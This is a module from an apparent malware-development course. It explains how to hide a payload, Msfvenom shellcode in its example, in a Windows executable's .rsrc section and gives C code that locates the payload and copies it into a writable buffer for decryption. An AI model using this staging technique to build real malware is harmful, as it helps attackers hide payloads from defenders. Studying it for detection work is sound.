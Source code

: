 15. Payload Placement - .rsrc Section# [**15. Payload Placement - .rsrc Section**](https://maldevacademy.com/modules/15)

## **Payload Placement - .rsrc Section**

### **Introduction**

Saving the payload in the `.rsrc` section is one of the best options as this is where most real-world binaries save their data. It is also a cleaner method for malware authors, since larger payloads cannot be stored in the `.data` or `.rdata` sections due to size limits, leading to errors from Visual Studio during compilation.

### **.rsrc Section**

The steps below illustrate how to store a payload in the `.rsrc` section.

1.Inside Visual Studio, right-click on 'Resource files' then click Add > New Item.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-1.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-1.png)2.Click on 'Resource File'.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-2.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-2.png)3.This will generate a new sidebar, the Resource View. Right-click on the .rc file (Resource.rc is the default name), and select the 'Add Resource' option.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-3.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-3.png)4.Click 'Import'.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-4.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-4.png)5.Select the calc.ico file, which is the raw payload renamed to have the `.ico` extension.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-5.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-5.png)6.A prompt will appear requesting the resource type. Enter "RCDATA" without the quotes.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-6.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-6.png)7.After clicking OK, the payload should be displayed in raw binary format within the Visual Studio project

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-7.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-7.png)8.When exiting the Resource View, the "resource.h" header file should be visible and named according to the .rc file from Step 2. This file contains a define statement that refers to the payload's ID in the resource section (IDR\_RCDATA1). This is important in order to be able to retrieve the payload from the resource section later.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-8.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-8.png)Once compiled, the payload will now be stored in the `.rsrc` section, but it cannot be accessed directly. Instead, several WinAPIs must be used to access it.

* [FindResourceW](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-findresourcew) - Get the location of the specified data stored in the resource section of a special ID passed in (this is defined in the header file)
* [LoadResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) - Retrieves a `HGLOBAL` handle of the resource data. This handle can be used to obtain the base address of the specified resource in memory.
* [LockResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) - Obtain a pointer to the specified data in the resource section from its handle.
* [SizeofResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) - Get the size of the specified data in the resource section.

The code snippet below will utilize the above Windows APIs to access the `.rsrc` section and fetch the payload address and size.


```
#include <Windows.h>#include <stdio.h>#include "resource.h"int main() {

	HRSRC		hRsrc                   = NULL;
	HGLOBAL		hGlobal                 = NULL;
	PVOID		pPayloadAddress         = NULL;
	SIZE_T		sPayloadSize            = NULL;


	// Get the location to the data stored in .rsrc by its id *IDR_RCDATA1*
	hRsrc = FindResourceW(NULL, MAKEINTRESOURCEW(IDR_RCDATA1), RT_RCDATA);
	if (hRsrc == NULL) {
		// in case of function failure
		printf("[!] FindResourceW Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get HGLOBAL, or the handle of the specified resource data since its required to call LockResource later
	hGlobal = LoadResource(NULL, hRsrc);
	if (hGlobal == NULL) {
		// in case of function failure
		printf("[!] LoadResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get the address of our payload in .rsrc section
	pPayloadAddress = LockResource(hGlobal);
	if (pPayloadAddress == NULL) {
		// in case of function failure
		printf("[!] LockResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get the size of our payload in .rsrc section
	sPayloadSize = SizeofResource(NULL, hRsrc);
	if (sPayloadSize == NULL) {
		// in case of function failure
		printf("[!] SizeofResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Printing pointer and size to the screen
	printf("[i] pPayloadAddress var : 0x%p \n", pPayloadAddress);
	printf("[i] sPayloadSize var : %ld \n", sPayloadSize);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}

```
After compiling and running the code above, the payload address along with its size will be printed onto the screen. It is important to note that this address is in the `.rsrc` section, which is read-only memory, and any attempts to change or edit data within it will cause an access violation error. To edit the payload, a buffer must be allocated with the same size as the payload and copied over. This new buffer is where changes, such as decrypting the payload, can be made.

### **Updating .rsrc Payload**

Since the payload can't be edited directly from within the resource section, it must be moved to a temporary buffer. To do so, memory is allocated the size of the payload using [HeapAlloc](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc) and then the payload is moved from the resource section to the temporary buffer using `memcpy`.


```
// Allocating memory using a HeapAlloc call
PVOID pTmpBuffer = HeapAlloc(GetProcessHeap(), 0, sPayloadSize);
if (pTmpBuffer != NULL){
	// copying the payload from resource section to the new buffer
	memcpy(pTmpBuffer, pPayloadAddress, sPayloadSize);
}

// Printing the base address of our buffer (pTmpBuffer)
printf("[i] pTmpBuffer var : 0x%p \n", pTmpBuffer);


```
Since `pTmpBuffer` now points to a writable memory region that is holding the payload, it's possible to decrypt the payload or perform any updates to it.

The image below shows the Msfvenom shellcode stored in the resource section.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-payload.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-payload.png)Proceeding with the execution, the payload is saved in the temporary buffer.

[![](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-tmpbuffer.png)](15%20Payload%20Placement%20-%20rsrc%20Section%20c6369f39745844c8af17d37db5a75eac/rsrc-tmpbuffer.png)



